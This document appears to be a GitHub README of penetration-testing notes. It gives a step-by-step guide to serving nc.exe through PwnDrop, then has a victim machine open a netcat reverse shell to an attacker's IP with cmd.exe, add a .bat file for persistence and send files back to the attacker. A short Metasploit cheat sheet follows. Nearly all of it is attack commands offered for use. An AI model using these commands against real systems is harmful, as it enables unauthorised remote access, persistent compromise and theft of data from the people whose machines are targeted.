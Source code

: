 ### PwnDrop Usage
1st - 
```
You need to update the PwnDrop.ini file after install (Configuration to update your IP and Port)
```
2nd -
```
# cd /home/kali/tools/PwnDrop/build
```
3rd - 
```
# ./pwndrop start
```
4th - 
```
Go to 127.0.0.1:pwndrop
```
5th -
```
[/home/kali/tools/pwndrop/build] # locate nc.exe 
[/home/kali/tools/pwndrop/build] # /usr/share/windows-resources/binaries/nc.exe
```
6th - 
```
Upload to PwnDrop (Upload Folder)<br>
```
7th - 
```
Go to victim computer -> access ServerIP link (IP Address:pwndrop)
```
8th - 
```
(Save file to C:\ drive)
> run cmd.exe as admin
> cd C:\
> dir (should see file)
```
9th - Go to attack box
```
# nc -nlvp 4444
```
10th - Go to victim box
```
> nc.exe <attackIP> <attackPort> -e cmd.exe
```
11th - Do whatever, you're in. You should upload a .bat file to persisitantly run every few hours for a shell.
<br>
<br>
12th - Upload any files from Victim to Attacker via PwnDrop.

### Metasploit
Searching: 
```
msf6> search name: eternalblue
msf6> search name:eternalblue type:exploit app:client
msf6> search type: client
```
Sessions: 
```
msf6> sessions -h (help)
msf6> sessions -i # (choose session)
msf6> sessions -l (show running sessions)
msf6> sessions -k # (kill session)
msf6> Ctrl+Z (Run in background)
```
msfvenom usage:
```
```